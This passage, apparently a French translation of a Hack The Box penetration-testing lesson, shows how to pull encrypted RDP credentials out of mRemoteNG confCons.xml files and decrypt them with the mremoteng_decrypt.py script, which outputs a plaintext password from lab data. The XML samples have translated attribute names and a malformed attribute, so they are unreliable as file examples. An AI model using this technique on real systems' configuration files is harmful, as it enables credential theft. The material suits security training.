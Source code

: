 Examinons le contenu du fichier `confCons.xml` .

#### Fichier de configuration mRemoteNG - confCons.xml

Code : xml

```
<?XML version="1.0" encoding="utf-8" ?>
<mrng:Connexions xmlns:mrng="http://mremoteng.org" Name="Connexions" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected=" QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEDedcgDNO6N41Srqe" ConfVersion="2.6">
     <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrateur" Domain="test.local " Mot de passe="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Nom d'hôte="10.0.0.10" Protocole="RDP" PuttySession="Paramètres par défaut" Port="3389"
     ..COUPER..
</Connexions>

```

Ce document XML contient un élément racine appelé `Connections` avec les informations sur le chiffrement utilisé pour les informations d'identification et l'attribut `Protected`, qui correspond au mot de passe principal utilisé pour chiffrer le document. Nous pouvons utiliser cette chaîne pour tenter de déchiffrer le mot de passe principal. Nous trouverons des éléments nommés `Node` dans l'élément racine. Ces nœuds contiennent des détails sur le système distant, tels que le nom d'utilisateur, le domaine, le nom d'hôte, le protocole et le mot de passe. Tous les champs sont en clair sauf le mot de passe, qui est crypté avec le mot de passe principal.

Comme mentionné précédemment, si l'utilisateur n'a pas défini de mot de passe principal personnalisé, nous pouvons utiliser le script [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) pour déchiffrer le mot de passe. Nous devons copier le contenu de l'attribut `Password` et l'utiliser avec l'option `-s`. S'il existe un mot de passe principal et que nous le connaissons, nous pouvons alors utiliser l'option `-p` avec le mot de passe principal personnalisé pour également déchiffrer le mot de passe.

#### Déchiffrer le mot de passe avec mremoteng_decrypt

Déchiffrer le mot de passe avec mremoteng_decrypt

```
dsgsec@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="

Mot de passe : ASDki230kasd09fk233aDA

```

Examinons maintenant un fichier de configuration chiffré avec un mot de passe personnalisé. Pour cet exemple, nous définissons le mot de passe personnalisé `admin`.

#### Fichier de configuration mRemoteNG - confCons.xml

Code : xml

```
<?XML version="1.0" encoding="utf-8" ?>
<mrng:Connexions xmlns:mrng="http://mremoteng.org" Name="Connexions" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected=" ConfVersion="2.6">
     <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrateur" Domain="test.local " Mot de passe="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Nom d'hôte="10.0.0.10" Protocole="RDP" PuttySession="Paramètres par défaut" Port="3389" ConnectTo Console="Faux"

<SNIP>
</Connexions>

```